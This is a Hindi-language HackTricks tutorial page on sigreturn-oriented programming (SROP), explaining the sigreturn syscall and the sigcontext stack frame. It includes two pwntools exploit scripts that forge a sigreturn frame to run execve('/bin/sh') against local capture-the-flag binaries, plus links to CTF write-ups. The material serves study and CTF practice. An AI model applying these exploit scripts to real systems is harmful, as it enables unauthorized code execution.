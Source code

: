 # SROP - सिगरिटर्न-ओरिएंटेड प्रोग्रामिंग

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, **The PEASS Family** की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा **PR जमा करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## मूल जानकारी

**`Sigreturn`** एक विशेष **सिस्टम कॉल** है जिसका मुख्य उपयोग सिग्नल हैंडलर के पूर्ण होने के बाद सफाई करने के लिए किया जाता है। सिग्नल्स एक कार्यक्रम को ऑपरेटिंग सिस्टम द्वारा भेजे गए विघटनों को सूचित करने के लिए अक्सर भेजे जाते हैं। जब एक कार्यक्रम एक सिग्नल प्राप्त करता है, तो वह अपने वर्तमान कार्य को रोक देता है ताकि वह सिग्नल हैंडलर के साथ सिग्नल का समाचार कर सके, जो सिग्नल को संबोधित करने के लिए डिज़ाइन किया गया विशेष कार्य है।

सिग्नल हैंडलर समाप्त होने के बाद, कार्यक्रम को **पिछली स्थिति पुनः आरंभ** करने की आवश्यकता होती है जैसे कि कुछ नहीं हुआ है। यहाँ **`sigreturn`** काम आता है। यह कार्यक्रम को **सिग्नल हैंडलर से वापस लौटने** और स्टैक फ्रेम (फ़ंक्शन कॉल्स और स्थानीय चर) को साफ करके कार्यक्रम की स्थिति को पुनर्स्थापित करने में मदद करता है जो सिग्नल हैंडलर द्वारा उपयोग किया गया था।

रोचक भाग यह है कि **`sigreturn`** कैसे कार्यक्रम की स्थिति को पुनर्स्थापित करता है: यह **सभी सीपीयू के रजिस्टर मानों को स्टैक पर स्टोर** करके ऐसा करता है। जब सिग्नल अब और नहीं ब्लॉक होता है, **`sigreturn` इन मानों को स्टैक से पॉप** करता है, असल में सीपीयू के रजिस्टर को उनकी स्थिति पुनः सेट करता है जिससे सिग्नल को हैंडल किया गया था। इसमें स्टैक प्वाइंटर रजिस्टर (आरएसपी), जो वर्तमान स्टैक के शीर्ष को दर्शाता है, भी शामिल है।

{% hint style="danger" %}
एक आरओपी श्रृंखला से सिस्टम कॉल **`sigreturn`** को बुलाना और **स्टैक** में लोड करने के लिए **हमें चाहिए रजिस्ट्री मान** जिन्हें हम चाहेंगे कि यह **नियंत्रित** करें और इसलिए **कॉल** करें उदाहरण के लिए सिस्टम कॉल `execve` के लिए `/bin/sh`।
{% endhint %}

ध्यान दें कि यह एक **रेट2सिस्टम के प्रकार** होगा जो अन्य रेट2सिस्टम को बुलाने के लिए पैराम्स को नियंत्रित करना बहुत आसान बनाता है:

{% content-ref url="rop-syscall-execv/" %}
[rop-syscall-execv](rop-syscall-execv/)
{% endcontent-ref %}

यदि आप कूटनीति से इसकी जांच करना चाहते हैं तो यह है **सिगकॉन्टेक्स्ट संरचना** जो स्टैक में संग्रहित है ताकि बाद में मानों को पुनः प्राप्त किया जा सके (डायग्राम से [**यहाँ**](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)):
```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```
## उदाहरण

आप [**यहाँ एक उदाहरण पा सकते हैं**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop) जहाँ साइनरिटर्न कॉल ROP के माध्यम से निर्मित किया गया है (rxa में मान `0xf` डालना), हालांकि यह वहाँ से अंतिम उत्पीड़न है:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
यहाँ से [**एक्सप्लॉइट भी देखें**](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html) जहाँ बाइनरी पहले से ही `sigreturn` को कॉल कर रहा था और इसलिए इसे **ROP** के साथ बनाने की आवश्यकता नहीं है:
```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```
## अन्य उदाहरण और संदर्भ

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
* [https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)
* **स्टैक पर लिखने** की अनुमति देने वाला असेम्बली बाइनरी और फिर **`sigreturn`** सिसकॉल को कॉल करता है। स्टैक पर [**ret2syscall**](rop-syscall-execv/) लिखना संभव है एक **sigreturn** स्ट्रक्चर के माध्यम से और फ्लैग पढ़ना संभव है जो बाइनरी की मेमोरी में है।
* [https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html)
* **स्टैक पर लिखने** की अनुमति देने वाला असेम्बली बाइनरी और फिर **`sigreturn`** सिसकॉल को कॉल करता है। स्टैक पर [**ret2syscall**](rop-syscall-execv/) लिखना संभव है एक **sigreturn** स्ट्रक्चर के माध्यम से (बाइनरी में स्ट्रिंग `/bin/sh` है)।
* [https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html)
* 64 बिट, कोई relro नहीं, कोई कैनेरी नहीं, एनएक्स, कोई पाई। `gets` फंक्शन का दुरुपयोग करके सिम्पल बफर ओवरफ्लो जो [**ret2syscall**](rop-syscall-execv/) करता है। ROP चेन `.bss` में `/bin/sh` लिखने के लिए फिर से gets को कॉल करके करता है, यह **`alarm`** फंक्शन का दुरुपयोग करता है ताकि eax को `0xf` सेट करके एक **SROP** को कॉल करें और शैल को चलाएं।
* [https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html)
* 64 बिट असेम्बली प्रोग्राम, कोई relro नहीं, कोई कैनेरी नहीं, एनएक्स, कोई पाई। फ्लो स्टैक में लिखने की अनुमति देता है, कई रजिस्टर को नियंत्रित करता है, और एक सिसकॉल को कॉल करता है और फिर `exit` को कॉल करता है। चयनित सिसकॉल एक `sigreturn` है जो रजिस्ट्री सेट करेगा और `eip` को पिछले सिसकॉल इंस्ट्रक्शन को कॉल करने और `memprotect` को चलाने के लिए सेट करेगा बाइनरी स्पेस को `rwx` और ESP को बाइनरी स्पेस में सेट करेगा। फ्लो का पालन करते हुए, प्रोग्राम फिर से ESP में पढ़ने को कॉल करेगा, लेकिन इस मामले में ESP अगले इंट्रक्शन को पॉइंट कर रहा होगा इसलिए शैलकोड पास करने पर यह इसे अगले इंट्रक्शन के रूप में लिखेगा और इसे चलाएगा।

